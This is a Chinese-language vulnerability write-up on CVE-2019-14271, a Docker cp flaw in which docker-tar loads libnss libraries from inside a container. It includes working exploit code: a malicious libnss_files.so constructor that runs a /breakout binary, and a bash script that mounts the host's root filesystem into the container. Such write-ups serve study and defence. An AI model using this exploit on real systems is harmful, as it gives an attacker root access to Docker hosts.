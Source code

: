 ```yaml
---
title: （CVE-2019-14271）Docker copy漏洞
id: zhfly2890
---
```


# （CVE-2019-14271）Docker copy漏洞

## 一、漏洞简介

## 二、漏洞影响

Docker 19.03.1

## 三、复现过程

### Docker cp

Copy命令允许从容器、向容器中、或容器之间复制文件。语法与标准的unix cp命令非常相似。要从容器中复制/var/logs，语法是docker cp container_name:/var/logs /some/host/path。

从下图所示，要从容器中将文件复制出去，Docker使用了一个名为docker-tar的帮助进程。

![image](../img/5ddd7d1cee95b0637965f2cf8d512ac4.png)

图 1\. 从容器中复制文件

docker-tar是通过chroot到容器，将请求的文件或目录存档，然后将生成的tar文件传递给Docker daemon，然后由daemon提取到主机的目标目录中。

注释：CHROOT就是Change Root，也就是改变程序执行时所参考的根目录位置。CHROOT可以增进系统的安全性，限制使用者能做的事。

![image](../img/07d632cf0cf2eeb1f6ebdc1565d7c6d5.png)

图 2\. docker-tar chroot到容器中

Chroot主要是为了避免系统链接的问题，当主机进程尝试访问容器中的文件时就可能会引发系统链接问题。如果访问的文件中有系统链接，就会解析到host root。因此，攻击者控制的容器就可以尝试和诱使docker cp在主机而非容器上读写文件。去年有许多Docker和Podman相关的系统链接CVE漏洞。通过chroot到容器的root，docker-tar可以确保所有系统链接都可以高效地解析。

但，chroot到容器然后从容器中复制文件可能会引发很严重的安全问题。

### CVE-2019-14271

Docker是用Golang语言编写。有漏洞的Docker版本是用Go v1.11编译的。在该版本中，一些含有嵌入C代码（cgo）的包会在运行时动态加载共享的库。这些包包括net和os/user，都是docker-tar使用的，而且在运行时会加载多个libnss_*.so库。一般来说，库是从host文件系统加载的，但因为docker-tarchroot到了容器，因此会从容器文件系统中加载库。也就是说docker-tat会加载和执行来源于容器或由容器控制的代码。

需要说明的是，除了chroot到容器文件系统外，docker-tar并没有被容器化。它是在host命名空间运行的，权限为root全新且不受限于cgroups或seccomp。因此，通过注入代码到docker-tar，恶意容器就可以获取host主机的完全root访问权限。

可能的攻击场景有Docker用户从另一个Docker处复制文件：

容器运行含有恶意libnss_*.so库的镜像

容器中含有被攻击者替换的libnss_*.so库

在这两种情况下，攻击者都可以获取主机上的root代码执行权限。

### 漏洞利用

为利用该漏洞，研究人员需要先创建一个恶意libnss库。研究人员随意选择了libnss_files.so文件，下载了库函数的源码，并在代码中加入了一个函数——run_at_link()。研究人员还为该函数定义了constructor属性。constructor属性表明run_at_link函数在进程加载时会作为库的初始化函数执行。也就是说，当Docker-tar进程动态加载恶意库时，run_at_link函数就会执行。下面是run_at_link的代码：

```
#include ...

#define ORIGINAL_LIBNSS “/original_libnss_files.so.2”

#define LIBNSS_PATH “/lib/x86_64-linux-gnu/libnss_files.so.2”

bool is_priviliged();

**attribute** ((constructor)) void run_at_link(void)

{

char * argv_break[2];

if (!is_priviliged())

return;

```
 rename(ORIGINAL_LIBNSS, LIBNSS_PATH);
 fprintf(log_fp, "switched back to the original libnss_file.so");

 if (!fork())
 {

       // Child runs breakout
       argv_break[0] = strdup("/breakout");
       argv_break[1] = NULL;
       execve("/breakout", argv_break, NULL);
 }
 else
       wait(NULL); // Wait for child

 return; 
``` `}

bool is_priviliged()

{

FILE * proc_file = fopen("/proc/self/exe", “r”);

if (proc_file != NULL)

{

fclose(proc_file);

return false; // can open so /proc exists, not privileged

}

return true; // we’re running in the context of docker-tar

}` 
```

查/proc目录完成的。如果run_at_link运行在docker-tar环境下，那么目录就是空的，因为procfs挂载在/proc上只存在于容器的mount命名空间。

然后，run_at_link会用恶意libnss库替换原始库。这保证了漏洞利用运行的随后进程不会意外加载恶意版本，并触发run_at_link执行。

为简化该漏洞利用，run_at_link会尝试在容器的/breakout路径下运行可执行文件。这样漏洞利用的其他部分就可以用bash写入，而非C语言。让逻辑的其他部分在run_at_link外，意味着在漏洞利用每次变化后无需重新编译恶意库，只需改变breakout二进制文件就可以了。

![image](../img/5c5bd333283d1247c534764951704677.png)

利用CVE-2019-14271打破Docker

在该漏洞视频中，Docker用户会运行含有恶意libnss_files.so的恶意镜像，然后尝试从容器中复制一些日志。镜像中的/breakout二进制文件是一个简单的bash脚步，会挂载host文件系统到/host_fs的容器中，并将消息写入host的/evil目录。
/breakout脚本代码如下：

```
umount /host_fs && rm -rf /host_fs
mkdir /host_fs `mount -t proc none /proc     # mount the host’s procfs over /proc

cd /proc/1/root              # chdir to host’s root

mount --bind . /host_fs      # mount host root at /host_fs

echo “Hello from within the container!” > /host_fs/evil` 
```

## 四、参考链接

> https://xz.aliyun.com/t/6806